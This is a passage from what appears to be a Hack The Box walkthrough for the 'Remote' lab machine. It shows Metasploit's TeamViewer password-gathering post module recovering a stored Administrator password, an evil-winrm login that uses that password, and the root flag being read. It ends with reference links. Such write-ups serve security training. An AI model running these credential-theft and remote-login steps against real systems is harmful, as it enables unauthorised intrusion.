
    msf5 exploit(multi/handler) > use post/windows/gather/credentials/teamviewer_passwords
    msf5 post(windows/gather/credentials/teamviewer_passwords) > options

      Module options (post/windows/gather/credentials/teamviewer_passwords):

         Name          Current Setting  Required  Description
         ----          ---------------  --------  -----------
         SESSION                        yes       The session to run this module on.
         WINDOW_TITLE  TeamViewer       no        Specify a title for getting the window handle, e.g. TeamViewer

    msf5 post(windows/gather/credentials/teamviewer_passwords) > set session 1
    msf5 post(windows/gather/credentials/teamviewer_passwords) > run

      [*] Finding TeamViewer Passwords on REMOTE
      [+] Found Unattended Password: !R3m0te!
      [+] Passwords stored in: /root/.msf4/loot/20200507151315_default_10.10.10.180_host.teamviewer__218524.txt
      [*] <---------------- | Using Window Technique | ---------------->
      [*] TeamViewer's language setting options are ''
      [*] TeamViewer's version is ''
      [-] Unable to find TeamViewer's process
      [*] Post module execution completed


5. Use evil-winrm to grab root.txt

    root@nidus:/opt/htb/machines/remote# evil-winrm -i 10.10.10.180 -u Administrator -p '!R3m0te!'
      *Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
        e68c6abb4d764732be88aaed8f733990



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

TeamViewer Exploit
  https://whynotsecurity.com/blog/teamviewer/

Import MSF-module
  https://medium.com/@pentest_it/how-to-add-a-module-to-metasploit-from-exploit-db-d389c2a33f6d
